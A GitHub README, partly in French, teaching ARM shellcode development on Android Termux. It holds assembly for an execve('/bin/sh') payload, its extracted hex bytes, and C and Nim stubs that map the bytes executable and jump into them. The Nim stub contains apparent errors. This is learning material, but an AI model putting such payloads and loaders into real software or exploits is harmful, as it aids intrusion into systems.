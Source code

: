 # Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~ $> ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.
~ $> ld -N shell.o -o shell
```
![ Use ld -N ](https://github.com/Dkwebpoint/shellcode/blob/be42d7cafd5f195efc91ec5d1cd4022ccbb6128e/IMG_20231109_055637.jpg)
# Extract the shellcode
```
~ $> objcopy -O binary shell shell.bin
~ $> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell.bin               $>\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58
```
![extrct the shellcode](https://github.com/Dkwebpoint/shellcode/blob/702defc0e20912539f6ecb994810f9c96dc78e65/IMG_20231109_143924.jpg)

# Shellcode tester 

create a file [ShellTester.c](https://github.com/Dkwebpoint/shellcode/blob/36c5cbee6fddb6f48329b393e88a74c329c25c82/ShellTester.c)

```
GNU nano 7.2                                                 shelltester.c
/**********************************************************************
*
* Program: shelltester.c
*
* Date: 08/11/2023
*
* Purpose: This code is used to provide a C template to paste shellcode
*          into and be able to run it live from within an ELF binary's
*          char buffer. This allows you to create a buffer with the
*          shellcode globally and this program will mark it as RWX using
*          mprotect() and then finally jump into.
*
* gcc -m32 -z execstack shelltester.c -o shellcodetester
*
***********************************************************************/
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>

/////////////////////////////////////////////////////
//  source file: shell.s
/////////////////////////////////////////////////////                                                                                        char payload[] = "\x01\x30\x8f\xe2"
                 "\x13\xff\x2f\xe1"
                 "\x02\xa0"
                 "\x49\x40"                                                                                                                                   "\x52\x40"
                 "\xc2\x71"
                 "\x0b\x27"
                 "\x01\xdf"
                 "\x2f\x62\x69\x6e"
                 "\x2f\x73\x68\x58";

int main() {
    // Print the banner.
    puts("\n\t\033[33;1m---===[ Shellcode Tester Stub v1.0 ]===---\033[0m\n");

    // Print the size of the shellcode.                                                                                                          printf(" [\033[34;1m*\033[0m] Shellcode Size:  %d\n", sizeof(payload)-1);

    // Create a function pointer to the shellcode and
    // display it to the user.
    void (*shell)();
        shell=(void (*)())payload;

    printf(" [\033[34;1m*\033[0m] Shellcode Address: %p\n", shell);

    // Calculate the address to the start of the page for the
    // the shellcode.
    void *page_offset = (void *)((int)shell & ~(getpagesize()-1));
    printf(" [\033[34;1m*\033[0m] Shellcode page: %p\n", &page_offset);

    // Use mprotect to mark that page as RWX.
    mprotect(page_offset, 4096, PROT_READ|PROT_WRITE|PROT_EXEC);

    // Finally, use our function pointer to jump into our payload.
    puts("\n\033[33;1m---------[ Begin Shellcode Execution ]---------\033[0m");
    (*shell)();

    // We likely won't get here, but might as well include it just in case.
    puts("\033[33;1m---------[  End Shellcode Execution  ]---------\033[0m");
    return 0;
}
```
# Compile and execute the shellcode with C programme 

```
~ $> gcc -o shelltester -z execstack ShellTester.c

~ $> ./shelltester

```
![execute](https://github.com/Dkwebpoint/shellcode/blob/ec30f234b6aabeda21106e148769ef09001e2b85/IMG_20231112_084450.jpg)

# Compile and execute the shellcode with NIM programme 

create a file [shelltester.nim]()
```
GNU nano 7.2                           test7.nim
import std/[posix, strformat]
import std/strutils

var
  payload = array[28, byte] [
  byte 0x01,0x30,0x8f,0xe2,0x13,0xff,0x2f,0xe1,0x02,0xa0,0x49,0x40,0x52,0x40,0xc2,0x71,0x0b,0x27,0x01,0xdf,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x58
  ]
  ]

  (prot, flag) = (PROT_WRITE or PROT_EXEC, MAP_ANONYMOUS or MAP_PRIVATE)
  tstptr = mmap(nil, sizeof payload, prot, flag, -1, 0)
  tstptr2: pointer
  memad: int

if tstptr != nil:
  echo "Mémoire allouée avec succès a :",tstptr.repr
else:
  echo "Erreur lors de l'allocation de mémoire"                                         copyMem(tstptr, payload[0].addr, sizeof payload)
cast[proc(){.cdecl.}](tstptr)()
echo payload.repr                                                                       echo tstptr.repr # prints hello, world!
echo typeof(tstptr)

memad = cast[int](tstptr) # address, same as the one listed in repr(tstptr)!
tstptr2 = cast[pointer](memad) # generic pointer to address?
tstptr = cast[ptr string](tstptr2) # converting back to pointer to string?
echo tstptr2.repr

echo typeof(tstptr2)
if tstptr != nil:
  echo "Mémoire allouée avec succès a :",tstptr.repr
else:
  echo "Erreur lors de l'allocation de mémoire"

discard munmap(tstptr, sizeof payload)
```
